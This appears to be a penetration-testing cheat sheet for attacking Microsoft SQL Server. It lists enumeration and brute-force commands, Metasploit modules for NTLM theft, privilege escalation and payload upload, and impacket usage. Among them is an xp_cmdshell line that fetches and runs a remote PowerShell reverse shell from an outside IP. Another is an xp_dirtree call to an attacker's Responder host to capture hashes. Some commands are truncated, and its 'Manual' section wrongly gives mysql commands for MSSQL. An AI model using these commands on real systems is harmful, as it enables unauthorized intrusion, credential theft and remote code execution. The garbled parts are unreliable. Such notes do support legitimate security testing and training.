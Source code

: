```yaml
---
description: (TCP 1433-4, 135/UDP 143)(TCP 1433-4, 135/UDP 143)
---
```


# MSSQL

## :information\_source: Introduction

#### [Microsoft SQL](https://medium.com/@toprak.mhmt/what-is-mssql-9a152d7d4ed0)

By default, the typical ports used by SQL Server and associated database engine services are: **TCP 1433, 4022, 135, 1434, UDP 1434.**

## :ballot\_box\_with\_check: Checklist

* [ ] Try to query the DB if you have creds
* [ ] heck for DAC (Dedicated Access Connection)
* [ ] Login brute force
* [ ] Try NTLM relay with a fake SMB server
* [ ] If you can get access, check for privilege escalation methods to gain admin access to DB
* [ ] Check for CVEs

## Enumeration

```
nmap -sV -p 1433,1433  <IP>
nmap --script ms-sql-info <IP>
auxiliary/scanner/mssql/mssql_ping
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <I
```

## Authenticate with Empty Password

```
# Attempts to authenticate to Microsoft SQL Servers using an empty password forthe sysadmin (sa) account.
ms-sql-empty-password
```

## Login Brute Force

```
nmap -p 1433 –script ms-sql-brute –script-args userdb=[user.txt] ,passdb=[pass.txt] [target
use auxiliary/scanner/mssql/mssql_login
hydra -L [user.txt] –P [pass.txt] [target] mssql
medusa -h [target] –U [user.txt] –P [pass.txt] –M mssql
crackmapexec mssql <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
```

## Dedicated Admin Connection (DAC)

The DAC port is used to connect to the database instance when normal connection attempts fail, for example, when server is hanging, out of memory or in other bad states. In addition, the DAC port provides an admin with access to system objects otherwise not accessible over normal connections.

The DAC feature is accessible on the loopback adapter per default, but can be activated for remote access by setting the 'remote admin connection' configuration value to 1. In some cases, when DAC has been remotely enabled but later disabled, the sql browser service may incorrectly report it as available.

```
sudo nmap -sU -p 1434 --script ms-sql-dac <ip>
```

![](<../../.gitbook/assets/image (276) (1) (1) (1) (1) (1).png>)

## Query (with credentials)

### Automated

Queries Microsoft SQL Server (ms-sql) instances for a list of databases, linked servers, and configuration settings.

{% hint style="warning" %}
Credentials are required
{% endhint %}

```
nmap --script ms-sql-config
# example:
nmap -p 1433 --script ms-sql-config --script-args mssql.username=sa,mssql.password=sa <host>
```

sample output:

![](<../../.gitbook/assets/image (274) (1) (1).png>)

#### Other nmap Scripts with Credentials

```
# Dumps the password hashes from an MS-SQL server in a format suitable
# Credentials required
ms-sql-dump-hashes

# Queries Microsoft SQL Server (ms-sql) instances for a list of databases a user hasaccess to.
# Credentials required
ms-sql-hasdbaccess

# Runs a query against Microsoft SQL Server (ms-sql).
# Credentials required.
ms-sql-query

# Queries Microsoft SQL Server (ms-sql) for a list of tables per database.
# Credentials required
ms-sql-tables

# Attempts to run a command using the command shell of Microsoft SQL Server (ms-sql)
# Credentials required
ms-sql-xp-cmdshell
```

#### Metasploit Modules:

```
#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used
​
#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder
​
#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump
​
#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf
​
#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin
​
#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload
​
#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass
```

#### impacket mssqlclient:

```
mssqlclient.py  -db volume -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP> #Recommended -windows-auth when you are going to use a domain. use as domain the netBIOS name of the machine
​
#Once logged in you can run queries:
SQL> select @@ version;
​
#Steal NTLM hash
sudo responder -I <interface> #Run that in other console
SQL> exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test' #Steal the NTLM hash, crack it with john or hashcat
​
#Try to enable code execution
SQL> enable_xp_cmdshell
​
#Execute code, 2 sintax, for complex and non complex cmds
SQL> xp_cmdshell whoami /all
SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'
```

#### sqsh

```
sqsh -S <IP> -U <Username> -P <Password> -D <Database>
```

### Manual

#### Local:

```
mysql -u root # Connect to root without password
mysql -u root -p # A password will be asked (check someone)
mysql -u root -h 127.0.0.1 -e 'show databases;'
```

Remote:

```
mysql -h <Hostname> -u root
mysql -h <Hostname> -u user@target-host
```

## MSSQL - SMB Relay Attack

If we are in the local network we can run an MitM attack and grab NTLM hashes by setting up a fake SQL server and making the service authenticate against our server.

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/executing-smb-relay-attacks-via-sql-server-using-metasploit" %}

## Stored Procedures (db\_owner to sysadmin)

#### if we have the credentials of a DB user we can become sysadmin and execute commands remotely:

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases" %}

### Metasploit

```
use auxiliary/admin/mssql/mssql_esclate_dbowner
set rhost 172.20.10.2
set rport 1433
set username db1_owner
set password MyPassword!
```

## Stored Procedures (user impersonation)

This technique is mostly used for privilege escalation.

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-2-user-impersonation" %}





















